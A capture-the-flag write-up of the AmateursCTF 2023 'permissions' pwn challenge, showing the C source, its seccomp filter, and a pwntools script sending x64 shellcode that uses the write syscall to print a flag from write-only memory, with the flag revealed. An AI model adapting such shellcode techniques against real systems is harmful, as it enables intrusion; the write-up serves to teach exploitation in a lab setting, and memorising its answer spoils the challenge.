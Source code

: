 # AmateursCTF 2023

## permissions

> Every programmer should read the [`Intel Software Developer Manuals`[https://cdrdv2.intel.com/v1/dl/getContent/671200] at least once.
>
>  Author: unvariant
>
> [`chal.c`](chal.c) [`chal`](chal) [`Dockerfile`](Dockerfile)

Tags: _pwn_

## Solution
For this challenge a bit of code is given.

```c
int main () {
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    alarm(6);

    int fd = open("flag.txt", O_RDONLY);
    if (0 > fd)
        errx(1, "failed to open flag.txt");

    char * flag = mmap(NULL, 0x1000, PROT_WRITE, MAP_ANON | MAP_PRIVATE, -1, 0);
    if (flag == MAP_FAILED)
        errx(1, "failed to mmap memory");

    if (0 > read(fd, flag, 0x1000))
        errx(1, "failed to read flag");

    close(fd);

    // make flag write-only
    if (0 > mprotect(flag, 0x1000, PROT_WRITE))
        errx(1, "failed to change mmap permissions");

    char * code = mmap(NULL, 0x100000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_ANON | MAP_PRIVATE, -1, 0);
    if (code == MAP_FAILED)
        errx(1, "failed to mmap shellcode buffer");

    printf("> ");
    if (0 > read(0, code, 0x100000))
        errx(1, "failed to read shellcode");

    setup_seccomp();

    ((void(*)(char *))code)(flag);
    exit(0);
}
```

What happens here is that the flag is read into a anonymous, private memory file. After the flag was written the memory is made `write only` by calling `mprotect` with `PROT_WRITE`. Afterwards another chunk of memory is allocated (with rwx permission) and some user input is read. The user input is assumed to be shellcode since it's called just before exiting with `flag` pointer as parameter.

```c
ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
```

Working around this issue by trying to call `system` to get a shell or call `cat` will not work, since most of the syscalls are forbidden. Allowed are only `read`, `write`, `exit` and `exit_group`.

Another hint given is the [`Intel Software Developer Manuals`](https://cdrdv2.intel.com/v1/dl/getContent/671200). As this code runs on `x64` write permission always imply read, so the solution is to just print the flag content.

When running with gdb we can see that the flag pointer is read to rax and passed via rdi. So calling syscall `write` with one of the two registers and printing to `fd = 1` should give us the flag. 

```
x55ae2bc5054b <main+452>       mov    rdx, qword ptr [rbp - 0x18]
0x55ae2bc5054f <main+456>      mov    rax, qword ptr [rbp - 0x10]
0x55ae2bc50553 <main+460>      mov    rdi, rax
► 0x55ae2bc50556 <main+463>    call   rdx                           <0x7f699189b000>
```

```python
from pwn import *

context.arch = "amd64"

p = remote("amt.rs", 31174)

shellcode = '''
    mov rsi, rdi
    push 1
    pop rdi
    push 40
    pop rdx
    push SYS_write
    pop rax
    syscall
'''

p.sendlineafter(b"> ", asm(shellcode))
p.interactive()
```

```bash
$ python foo.py
[+] Opening connection to amt.rs on port 31174: Done
[*] Switching to interactive mode
amateursCTF{exec_1mpl13s_r34d_8751fda0}
```

Flag `amateursCTF{exec_1mpl13s_r34d_8751fda0}`